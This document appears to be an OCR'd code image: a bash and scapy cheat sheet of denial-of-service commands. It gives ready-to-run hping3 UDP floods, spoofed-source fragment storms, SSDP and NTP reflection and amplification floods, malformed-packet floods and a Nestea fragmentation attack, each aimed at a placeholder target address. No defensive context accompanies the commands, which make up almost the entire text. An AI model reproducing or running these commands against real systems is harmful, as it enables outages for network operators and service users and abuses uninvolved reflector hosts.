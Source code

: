 ```bash
# UDP Flood
hping3 -p <port> -i u1 --udp $remote_port

# Source/Dest port zero
hping3  --udp -i u1 --rand-source -s 0 -p 0 $remote_port

# Fragment Storm packet size 30 single source
hping3 -i u50 -d 30 -f -m 20 -0 -H 47 -a <src ip> $remote_port

# UDP flood with varying packet sizes
for (( i = 0; i <=500000; i++)); do hping3 -p $port --udp -c 1 -d `php -r "echo rand(0,1200);"` $remote_IP; done
# Note : Change the loop number to repeat as may times as desired. The (0,1200) indicates the min and max packet size values. These can be changed. If max is set too high, fragmentation may result (which may be intended!)

# SSDP reflection storm
hping3 --verbose --udp --flood --ttl 64 --baseport 6176 --destport 1900 --data 150 $remote_IP

# Fragment Storm packet size 2000
hping3 --udp -i u1 --rand-source -f -d 2000 -p $port $remote_IP

# Fragment Storm packet size 10000
hping3 --udp -i u1 --rand-source -f -d 10000 -p $port $remote_IP

# Invalid Fragment Offset
hping3 --udp --fragoff 1400 --rand-source -i u1 -p $port $remote_IP

# Fast UDP port scan
nmap -sU -F $remote_IP

# Malformed UDP flood, no L4 data
"#scapy
send(IP(dst=""$remote_IP"",len=32)/UDP()/Raw(load=""malformed""),count=50000)"

# Nestea Attack
"#scapy
send(IP(dst=$target, id=42, flags=""MF"")/UDP()/(""X""*10))
 send(IP(dst=$target, id=42, frag=48)/(""X""*116))
send(IP(dst=$target, id=42, flags=""MF"")/UDP()/(""X""*224))"
```

### NTP

```bash
# NTP amplification
hping3 --udp -i u1 --rand-source --baseport 123 --destport 123 -m 1400 -d 1400 $remote_IP

# NTP reflection
for (( i = 0; i <=500000; i++)); do ntpdc -n -c monlist $remote_IP; done
```
